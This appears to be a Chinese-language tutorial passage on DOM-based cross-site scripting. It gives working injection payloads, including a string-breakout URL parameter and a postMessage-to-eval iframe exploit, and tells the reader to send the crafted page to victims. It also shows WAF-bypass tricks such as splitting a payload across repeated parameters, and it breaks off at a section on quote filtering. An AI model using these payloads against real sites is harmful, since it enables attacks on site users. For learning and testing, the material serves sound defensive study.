### DOM型

DOM型的XSS是通过修改页面DOM节点数据信息而形成的XSS跨站脚本攻击。

不同于反射型XSS和存储型XSS，基于DOM的XSS跨站脚本攻击往往需要针对具体的 Javascript DOM代码进行分析，并根据实际情况进行XSS跨站脚本攻击的利用。

并且DOM型XSS是基于JS上的，并不需要与服务器进行交互，它只发生在客户端处理数据的阶段。

当用户请求一个包含XSS恶意代码的URL，服务器的响应不会以任何形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM对象就会处理XSS代码。

#### 常见注入点

例子一：通过js脚本对文档对象进行编辑，从而修改页面的元素。

举例

    ?Message=hacker";var%20a="&Message=";alert(1)-"
    
对应的js

    <script>
    var msg = "hacker";
    var a=", ";
    alert(1)-""
    </script>
    
例子二：网络消息型的DOM型XSS

    <script>
    window.addEventListener('message', function(e) {
        eval(e.data);
    });
    </script>
    
这段代码很容易受到攻击，因为攻击者可以通过构造以下iframe来注入JavaScript的Payload：

    <iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

由于事件侦听器不验证消息的来源，并且postMessage()方法指定targetOrigin "*"，因此事件侦听器接受Payload并将其传递到接收器，在本例中为eval()函数。

将上面的payload写入html文件里，部署到服务器中发送给受害者
    
## WAF绕过

### 数组传参

举例

    ?limit=%3Ca/&limit==%221%22on%09click=%22j%09avascript:alert%60%60%22%3E1%3C/a%3E
    
第一个limit先传一个标签进去，构造第二个limit为第一个标签作闭合，构造一条完整的xss语句。

### 特殊符号限制

可以尝试使用HTML实体编码或Unicode编码绕过

#### 限制"绕过
